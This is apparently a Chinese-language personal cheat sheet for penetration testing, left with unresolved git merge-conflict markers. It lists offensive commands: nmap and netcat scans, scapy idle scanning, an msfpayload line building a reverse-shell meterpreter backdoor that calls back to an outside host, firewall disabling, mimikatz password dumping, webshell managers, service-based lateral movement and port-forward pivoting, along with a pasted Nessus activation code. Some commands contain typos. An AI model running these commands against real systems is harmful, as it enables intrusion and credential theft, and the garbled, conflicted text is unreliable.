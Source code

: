 # 渗透网站

修改wifi sid

https://lexsaints.blog.csdn.net/article/details/117260497

# 工具

APPscan 

goby Burp

pocsuite



#### sqlmap 渗透数据库



批量 扫描存活地址

fping -ag 192.169.99.0/24



#### nmap 端口扫描，探询那些端口存活



nmap -sn  192.168.99.0/24

nmap -sn  192.168.199.0-254



-sn 表示只进行ping 扫描，不进行端口

全连接扫描会被记录，半连接扫描不会被记录

使用nmap 半连接：

nmap -sS  192.168.199.223 -p  80,81,3306

-sS  表示使用SYN 进行半连接扫描



扫描开放的端口和操作系统

nmap -sS  -O 192.168.99.126

-O 显示操作系统 每一种操作系统都有特定的指纹

扫描目标主机是否有漏洞

nmap --script=vuln  192.168.99.127



#### nc( netcat) 进行端口扫描

nc -z -v -n 192.168.78.128  1-100 

- z 表示为zero，意思是扫描时不发送任何数据包
- -v 即为详细输出
- -n 不使用dns反向查询ip地址域名

#### scapy 

apt  install python3-pyx

####  僵尸扫描

rz1=sr1(IP(dst="192.168.1.54")/TCP(dport=445,falgs="SA"))

rt=sr1(IP(dst="192.168.1.54",dst="192.168.1.163")/TCP(dport=22),timeout=1)  //第二张图
rz2=sr1(IP(dst="192.168.1.54")/TCP(dport=445,falgs="SA"))   //第三张图
rz1.display()   //查看IPID

nmap 扫描僵尸主机

nmap -p端口 僵尸主机IP地址 --script=ipidseq.nse



|_ipidseq: Incremental!  说明是可以作为僵尸主机的



伪造僵尸主机IP进行扫描

nmap 目标主机IP -sI 僵尸主机IP -Pn -p 端口号

#### wireshark  使用



过滤器的使用

port  80 捕获 80端口相关的



ttl默认值

/proc/sys/net/ipv4/ip_default_ttl





#### zenmap



#### nessus  漏洞检测

https://www.tenable.com/downloads/nessus?loginAttempted=true

启动

/bin/systemctl start nessusd.service

Nessus
License Information
Activation Code: MPMX-VGRB-9BRV-52NA-DXNE



jingyu323

msf6  扫描结果

<<<<<<< HEAD
- vulns 显示漏洞
- use 
- creds  显示数据库中的所有平局

db_nmap -sV 192.168.99.131  查看开放端口



使用 auxiliary/sniffer 下的psnuffle 模块进行密码嗅探



smb_enumshare



字典路径

/usr/share/metasploit-framework/data/wordlists

#### msfpayload  生成后门

```
msfpayload windows/meterpreter/reverse_tcp LHOST=5.5.5.1 LPORT=8080 R | \
  msfencode -b '' -t exe -o /var/www/meterpreter.exe
```

#### metasploit 漏洞扫描工具

文档

https://www.kancloud.cn/wizardforcel/metasploit-manual/108071

启动

msfdb run

关闭windows防火墙

netsh firwall set opmode disable

mimikatz.exe 破解win密码

破解密码命令

mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords" "exit"



## 控制别人电脑工具

蚁剑  (php)

下载地址

https://github.com/AntSwordProject/AntSword-Loader

哥斯拉（java）

冰蝎 （）

菜刀 （ASP）



### 横向移动：

方式：



命令行创建服务

sc\owa.god.org create test binpath="cmd.exe /c c:\smb.exe"



## 渗透测试



测试基本流程：

1.  确定目标
2. 信息收集
3. 漏洞探测
4. 漏洞分析
5. 漏洞利用
6. 信息整理
7. 形成报告
=======
msfdb run  启动msf

#### 设置后门

windows 提权  getsystem
- 0day
- word 文档
- apk
-  宏
-  
Vegil 

#### frp 内网穿透

需要一个带公网IP的服务器

portfwd 映射端口

 192.168.1.53 源  目标需要被映射的地址 192.168.1.119 

 portfwd   add  -L  192.168.1.53  ‐ l   33389   ‐ r   192.168.1.119   ‐ p 3389
>>>>>>> 2a5e256443feded5bf1324698f76eacc08e5ead2
